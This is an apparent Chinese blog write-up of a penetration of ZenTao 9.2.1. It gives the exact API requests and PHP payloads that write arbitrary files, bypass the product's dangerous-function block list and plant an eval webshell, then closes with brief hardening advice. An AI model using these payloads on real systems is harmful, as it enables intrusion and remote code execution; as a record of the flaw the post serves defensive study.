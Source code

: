 ```yaml
---
title: 记一次禅道渗透并获取webshell
date: 2018-03-12 17:33:32
tags: [渗透,webshell]
category: 安全
---
```

有登陆权限,对 9.2.1 版本禅道渗透,获取webshell
<!--more-->
# 确认版本
首先通过接口获取禅道版本
http://127.0.0.1/index.php?mode=getconfig
```js
{
  "version": "9.2.1",
  "requestType": "PATH_INFO",
...
}
```
# 文件上传
```
URL:http://127.0.0.1/?m=api&f=getModel&moduleName=editor&methodName=save&params=filePath=a.php
Method:POST
Payload:fileContent=<?php $_POST[1]($_POST[2]);
```
直接提交发现报错:
 无法写入，可能没有权限。请尝试执行 chmod 777 -R a.ph  具体什么原因我也不太清楚

查看源代码 module/editor/model.php 371行
```php
public function save($filePath)
{
    $fileContent = $this->post->fileContent;
    $evils       = array('eval', 'exec', 'passthru', 'proc_open', 'shell_exec', 'system', '$$', 'include', 'require', 'assert');
    $gibbedEvils = array('e v a l', 'e x e c', ' p a s s t h r u', ' p r o c _ o p e n', 's h e l l _ e x e c', 's y s t e m', '$ $', 'i n c l u d e', 'r e q u i r e', 'a s s e r t');
    $fileContent = str_ireplace($gibbedEvils, $evils, $fileContent);
    if(get_magic_quotes_gpc()) $fileContent = stripslashes($fileContent);

    $dirPath = dirname($filePath);
    $extFilePath = substr($filePath, 0, strpos($filePath, DS . 'ext' . DS) + 4);
    if(!is_dir($dirPath) and is_writable($extFilePath)) mkdir($dirPath, 0777, true);
    if(is_writable($dirPath))
    {
        file_put_contents($filePath, $fileContent);
    }
    else
    {
        die(js::alert($this->lang->editor->notWritable . $extFilePath));
    }
}
```
发现写入文件路径也可以控制.

随便访问个URL让他弹出错误信息

```
ERROR: the control file /opt/zbox/app/zentao/module/indaafasf/control.php not found. in /opt/zbox/app/zentao/framework/base/router.class.php on line 1238, last called by /opt/zbox/app/zentao/framework/base/router.class.php on line 1357 through function setControlFile.
in /opt/zbox/app/zentao/framework/base/router.class.php on line 1932 when visiting indaafasf
```

发现禅道路径在 /opt/zbox/app/zentao/

查看源码得知 www 目录为可直接访问目录

直接上传文件
```
URL:http://127.0.0.1/?m=api&f=getModel&moduleName=editor&methodName=save&params=filePath=/opt/zbox/app/zentao/www/aaaaaa.php
Method:POST
Payload:fileContent=<?php file_put_contents($_POST[1],$_POST[2]);
```

访问上传后的文件 跳过检测上传一句话

```
URL:http://127.0.0.1/aaaaaa.php
Method:POST
Payload:
1=/opt/zbox/app/zentao/www/b.php
2=<?php @eval($_POST['pass']);?>
```
最后上一张菜刀图
![](/img/zentao_webshell/result.png)

# 总结
这种上传文件的地方已经要做好路径/文件后缀名的限制. 可以上传的目录一定不要给PHP的权限.
# 蛋疼
最后拿到了数据库发现管理员的密码竟然是默认密码...白忙活了这么多